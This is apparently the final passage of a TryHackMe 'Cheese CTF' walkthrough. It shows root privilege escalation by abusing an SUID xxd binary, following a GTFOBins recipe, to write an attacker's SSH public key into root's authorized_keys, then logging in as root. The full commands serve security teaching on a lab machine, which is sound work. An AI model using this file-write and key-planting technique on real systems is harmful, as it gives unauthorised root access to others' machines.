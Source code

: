 The xxd binary was created successfully in the /opt directory with the SUID bit set on it. We can use this binary to perform actions that can be performed by this binary as root on the target's system. [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/#file-write) shows us a very easy method to use the xxd binary to write into files. We can use this to write into the root's authorized_keys file.
```bash
comte@cheesectf:~$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGB6a+idw7BF1swhHqGDVY+DeclQH5edBdzWZp4SOCRz root@cheesectf' | xxd | /opt/xxd -r - "/root/.ssh/authorized_keys"
```

Now that we have written our public key in the root's authorized_keys file, we can use the associated private key to log in as root and read the flag.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Cheese_CTF/Misc Files]
└─$ ssh root@10.10.211.75 -i comte_id_rsa
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-174-generic x86_64)
<SNIP>
Last login: Thu Apr  4 17:21:43 2024
root@cheesectf:~# ls
root.txt  snap
```

## Conclusion

Congratulations! In this walkthrough, you have exploited an LFI vulnerability to achieve RCE on the target's machine. Finally, you have abused excess privileges on system files to elevate your privileges and compromise the root's account. This machine was designed to show how improper user input sanitisation and excess privileges of users over system files could seriously impact the security posture of an organisation. Thank you for following up on this walkthrough. 
